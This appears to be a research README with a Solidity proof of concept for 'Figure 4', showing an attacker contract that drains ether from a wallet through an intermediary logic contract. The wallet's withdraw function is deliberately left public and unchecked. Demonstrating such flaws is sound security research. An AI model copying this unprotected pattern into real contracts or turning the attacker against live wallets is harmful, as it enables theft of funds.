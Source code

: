 ## Exploits of Figure 4

#### Attack Flow

Attacker -> Logic -> Wallet --trasfer ethers--> Attacker

#### Attacker Contract

```javascript
contract Attacker {
    address addr_l;
    uint count=0;
        
    constructor ( address _addr ) payable
    {
        addr_l = _addr;
    }
        
    function someFun() public
    {
        count = count+1;
        if (count<5)
        {
            Logic(addr_l).logging(this,10);
        }
    }
        
    function () payable {}
        
    function setCount()
    {
        count = 0;
    }
        
    function getBalance() public view returns (uint)
    {
        return address(this).balance;
    }
        
}
```


#### Logic Contract

```javascript
    contract Logic{
        
        address private addr_w;
        
        event changed(address _exec, uint  _value);
        
        function logging( address _exec, uint _value)  public
        {
            emit changed(_exec, _value );
            withdraw(_exec, _value);
        }
        
        function  withdraw( address _exec, uint _value) internal
        {
            Wallet(addr_w).withdraw(_exec, _value);
        }
        
        constructor(  address _addr ) payable {
            addr_w = _addr;
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }
```

#### Wallet Contract

```javascript
    contract Wallet {
        constructor() payable {}
        
        function withdraw( address _exec, uint _value) public
        {
            _exec.transfer(_value);
        }
        
        function getBalance() public view returns (uint)
        {
            return address(this).balance;
        }
    }
```

#### Running Screenshots

![](./attack01.jpg)